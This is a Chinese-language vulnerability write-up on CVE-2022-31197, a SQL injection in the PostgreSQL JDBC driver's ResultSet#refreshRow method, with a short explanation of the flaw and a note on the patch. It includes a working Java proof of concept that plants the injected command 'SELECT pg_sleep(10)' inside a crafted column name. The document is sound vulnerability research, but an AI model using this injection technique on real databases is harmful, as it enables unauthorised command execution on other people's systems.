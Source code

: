 - [CVE-2022-31197 Postgresql jdbc sql注入漏洞](#cve-2022-31197-postgresql-jdbc-sql注入漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [ResultSet#refreshRow](#resultsetrefreshrow)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-31197 Postgresql jdbc sql注入漏洞
## 影响版本
42.3.0<=Version<42.4.1||<42.2.26
## 环境搭建
```xml
<dependencies>
    <dependency>
        <groupId>org.postgresql</groupId>
        <artifactId>postgresql</artifactId>
        <version>42.4.0</version>
    </dependency>
</dependencies>
```
## 原理分析
### ResultSet#refreshRow
漏洞主要是由于ResultSet的refreshRow方法中对列名没有进行安全过滤,将列名通过append的方式以此拼接导致可以在生成的sql语句中注入`;`来执行任意sql语句。
![](2022-08-23-18-45-41.png)  
所以该漏洞利用的条件需要能控制表中的列名,可能只会在一些数据库管理软件中利用此问题。
## 漏洞复现
测试代码
```java
import java.sql.*;
import java.time.LocalDateTime;

public class cve_2022_31197 {
    public static void main(String[] args) throws ClassNotFoundException, SQLException, InstantiationException, IllegalAccessException {
        Connection con;
        Statement st;
        ResultSet rs;

        String url = "jdbc:postgresql://localhost:5432/postgres";
        String user = "postgres";
        String password = "123456";
        Class.forName("org.postgresql.Driver").newInstance();
        con = DriverManager.getConnection(url, user, password);
        st = con.createStatement();
        st.executeUpdate("DROP TABLE IF EXISTS refresh_row_bad_ident CASCADE");
        st.execute("CREATE TABLE refresh_row_bad_ident (id int PRIMARY KEY, \"1 FROM refresh_row_bad_ident; SELECT pg_sleep(10); SELECT *\" int)");
        st.execute("INSERT INTO refresh_row_bad_ident (id) VALUES (1)");
        Statement stmt = con.createStatement(ResultSet.TYPE_FORWARD_ONLY, ResultSet.CONCUR_UPDATABLE);
        rs = stmt.executeQuery("SELECT * FROM refresh_row_bad_ident");
        rs.next();
        System.out.println(LocalDateTime.now());
        try {
            rs.refreshRow();
        } catch (SQLException e) {
            System.out.println(LocalDateTime.now());
        }
        rs.close();
        stmt.close();
    }
}

```
创建了一个名为`1 FROM refresh_row_bad_ident; SELECT pg_sleep(10); SELECT *`的恶意列名。   
![](2022-08-23-18-50-26.png)    
可以看到含有`;`的恶意列名被拼接到最后执行的sql语句中造成注入。  
![](2022-08-23-18-51-57.png)
## 补丁
![](2022-08-23-18-53-02.png)    
拼接时加了相应的过滤。  
## 参考
https://github.com/pgjdbc/pgjdbc/security/advisories/GHSA-r38f-c4h4-hqq2